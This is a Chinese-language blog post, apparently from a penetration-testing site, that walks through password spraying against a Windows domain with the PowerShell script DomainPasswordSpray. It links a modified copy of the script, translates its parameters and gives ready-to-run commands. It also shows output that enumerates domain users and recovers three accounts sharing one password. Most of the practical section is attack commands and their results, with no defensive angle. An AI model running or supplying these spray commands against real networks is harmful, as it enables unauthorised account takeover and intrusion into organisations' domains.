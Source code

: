 ```yaml
---
categories: 内网渗透
date: "2018-05-02T00:00:00Z"
description: 推荐一个Powershell脚本
title: Windows域渗透 - 用户密码枚举
url: /archivers/2018-05-02/1
---
```



## 0x00 前言

在进行Windows域渗透的时候，面对庞大的用户账号，不知该从何下手，扫描网络服务有怕搞出大动静，肿么办呢？

## 0x01 Powershell

目前已经有很多Powershell集合脚本，用于域渗透简直舒爽

今天推荐一款名字叫`DomainPasswordSpray.ps1`的脚本，主要原理是先来抓取域用户账号，然后指定密码字典进行域认证。认证通过的就是密码正确的了。

![0x00][0x00]

**GitHub项目地址：https://github.com/dafthack/DomainPasswordSpray**

由于作者的脚本有一个小瑕疵，故此我改了一下，避免抛出了一些错误。

![0x01][0x01]

**优化后的地址：http://payloads.online/scripts/Invoke-DomainPasswordSpray.txt**


## 0x02 参数说明

在代码的开头就已经有介绍了，我简单汉化一下。

    
描述：该模块主要用于从域中收集用户列表。

* 参数： `Domain` 指定要测试的域名
* 参数： `RemoveDisabled` 尝试从用户列表删除禁用的账户  
* 参数： `RemovePotentialLockouts` 删除锁定账户 
* 参数： `UserList` 自定义用户列表(字典)。 如果未指定，这将自动从域中获取
* 参数： `Password` 指定单个密码进行口令测试
* 参数： `PasswordList` 指定一个密码字典
* 参数： `OutFile` 将结果保存到某个文件
* 参数： `Force` 当枚举出第一个后继续枚举，不询问

## 0x03 使用说明

使用例子：

`C:\PS> Get-DomainUserList`

该命令将从域中收集用户列表。
    
`C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt`

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

`C:\PS> Invoke-DomainPasswordSpray -Password Winter2016`

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举

 
`C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt`

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

## 0x04 实战

### 获取域环境中的用户列表

**命令：**`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] There are 8 total users found.
[*] Created a userlist containing 8 users gathered from the current user's domain
```

获取的用户名：

```
C:\PS> type .\userlist.txt
Administrator
Guest
liyingzhe
krbtgt
Hack
testPass
webManager
dba
```

### 密码枚举

![0x02][0x02]

**命令：** `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 6 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 6 users gathered from the current user's domain
[*] Password spraying has begun. Current time is 18:45
[*] This might take a while depending on the total number of users
1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
6 of 6 users tested[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
```

枚举的结果：

```
C:\PS > type .\sprayed-creds.txt
testPass:w!23456
webManager:w!23456
dba:w!23456
```

[0x00]: ../../../static/images/23ba8e1a-4f5f-11ec-bac7-00d861bf4abb.png
[0x01]: ../../../static/images/23f92d78-4f5f-11ec-a331-00d861bf4abb.png
[0x02]: ../../../static/images/243c3a28-4f5f-11ec-937a-00d861bf4abb.png
